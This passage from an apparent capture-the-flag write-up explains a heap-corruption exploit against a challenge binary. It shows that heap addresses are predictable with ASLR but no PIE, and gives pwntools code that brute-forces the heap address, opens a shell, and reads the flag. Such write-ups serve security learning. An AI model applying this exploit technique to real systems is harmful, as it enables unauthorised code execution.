 ```py
sign_in(b"B", b"b")
get_shell()

io.interactive()
```

**And we got shell locally with ASLR disabled!** Sadly, *with ASLR we can't do it*, **right?** **_Right?_**

### Turns out you can!

I of course, didn't realize it first. *So I spent at least 15
hours trying ~17 completely unique techniques to exploit this bug (including the
intended one, which my solve isn't. Although I was too lazy to write a script for
it. I will talk about the intended solution later.)*

So after *these long 15 hours*, I get to actually check what happens to heap addresses with ASLR but without PIE
```c
$ cat t.c
#include <stdio.h>
#include <stdlib.h>

int main() {
    printf("malloc(20)=%p\n", malloc(20));
}
$ gcc t.c -no-pie
$ ./a.out
malloc(20)=0x1be22a0
$ ./a.out
malloc(20)=0x19f92a0
$ ./a.out
malloc(20)=0x10a42a0
$ gcc t.c
$ ./a.out
malloc(20)=0x635eab6c62a0
$ ./a.out
malloc(20)=0x5f1681e802a0
$ ./a.out
malloc(20)=0x6034565ad2a0
```

Yep, turns out heap with ASLR but without PIE is predictable!

So all we need to do is to take the original exploit, and modify it to bruteforce the heap address!

```py
HEAP_OFFSET = 0x13cc000
TARGET_ADDR = HEAP_OFFSET + 0x2e0 - 0x7 - 0x8
TARGET_ADDR_BIN = p64(TARGET_ADDR)

def exploit(io):
    sign_up(io, b"A", TARGET_ADDR_BIN)
    sign_up(io, b"B", b"b")
    sign_in_and_remove(io, b"A", TARGET_ADDR_BIN)
    sign_up(io, b"A", b"c"*8)
    sign_in_and_remove(io, b"A", b"c"*8)
    sign_in(io, b"B", b"b")
    get_shell(io, )
    io.sendline(b"ls")
    ls = io.recvline()
    io.sendline(b"cat flag*")
    flag = io.recvline()

    with open(f"solved{random.random()}.txt", "wb") as f:
        f.write(ls)
```